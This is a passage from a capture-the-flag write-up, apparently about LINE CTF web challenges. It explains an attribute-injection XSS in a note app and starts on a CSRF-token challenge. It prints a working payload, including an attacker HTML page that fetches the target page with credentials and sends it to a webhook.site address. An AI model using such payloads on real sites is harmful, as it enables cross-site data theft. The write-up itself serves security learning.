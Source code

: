 The first double quote is replaced, combined with the double quote at the beginning of the original content, and the `x="` at the end is combined with the next one. The `id=a` in the middle becomes part of the attribute.

In other words, we can insert any attribute into the div and use the focus function to create an XSS. Here's the payload that Renwa gave me in Discord:

```
note 1:
"tabindex="1"onfocus="eval(window.name)"style="position:relative;height: 20000px; width: 20008px;"autofocus="1"id="jj"x="

note 2:
LINECTF{rotate-1 yellow-bg"}

Report:
@domain.wtf/0ff.html

Contents of 0ff.html:
<!DOCTYPE html>
<html>
<body>
<img src=http://httpstat.us/200?sleep=5000>
<script>
var x= window.open('http://web:3000/8be526fd-e193-436c-a431-84141a0903b9','fetch(`http://web:8000/`,{credentials: "same-origin"}).then(x=>x.text()).then(x=>fetch(`https://webhook.site/603ab026-5a65-432f-a894-5d981fd24198?flag=${btoa(x)}`))');
setTimeout(function(){
x.location='http://web:8000/8be526fd-e193-436c-a431-84141a0903b9#jj'
},500)

</script>


</html>
```

I didn't think of this solution at the time. It's really amazing.

## Another Secure Store Note (7 solves)

This challenge had a feature to change the name, and the name would be directly reflected on the screen, creating a free XSS. However, the problem was that changing the name required checking the CSRF token. There was a file called `getSettings.js` that had the CSRF token:

``` js
function isInWindowContext() {
  const tmp = self;
  self = 1; // magic
  const res = (this !== self);
  self = tmp;
  return res;
}

// Ensure it is in window context with correct domain only :)
// Setting up variables and UI
if (isInWindowContext() && document.domain === '<%= domain %>') {
  const urlParams = new URLSearchParams(location.search);
  try { document.getElementById('error').innerText = urlParams.get('error'); } catch (e) {}
  try { document.getElementById('message').innerText = urlParams.get('message'); } catch (e) {}
  try { document.getElementById('_csrf').value = '<%= csrf %>'; } catch (e) {}
}
```
